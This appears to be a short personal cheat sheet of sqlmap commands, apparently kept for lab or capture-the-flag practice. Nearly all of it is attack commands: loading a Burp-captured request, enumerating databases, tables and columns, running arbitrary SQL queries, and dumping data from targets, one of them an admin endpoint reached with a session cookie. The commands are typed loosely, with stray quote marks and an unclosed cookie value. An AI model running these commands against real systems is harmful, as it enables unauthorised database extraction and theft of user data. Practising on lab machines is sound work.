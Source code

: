 # SQLmap commands
----------------http post req in req.tex ----------------------- have to right click cope to file in burp not ctrl +c !!!!!!!!!!!!!!!!!!!!!
'''
sqlmap -r req.txt --level 3 --risk 3 --dbs
	
'''
'''
sqlmap -r req.txt --level 3 --risk 3 -D YOURDATABASE--tables
'''	
sqlmap -r req.txt --level 3 --risk 3 -D YOURDATABASE -T YOURTABLE --columns
'''
'''
sqlmap -r req.txt --level 3 --risk 3 -D YOURDATABASE -T YOURTABLE -C YOURCOLUMN --sql-query "YOURQUERY"
'''

'''
sqlmap http://[IP]/admin?user=3 --cookie='token=[Enter Cookie] --technique=U --delay=2 -dump
'''
'''
sqlmap  -u "http://10.10.58.103/products/1" --batch -D <database> --dump
'''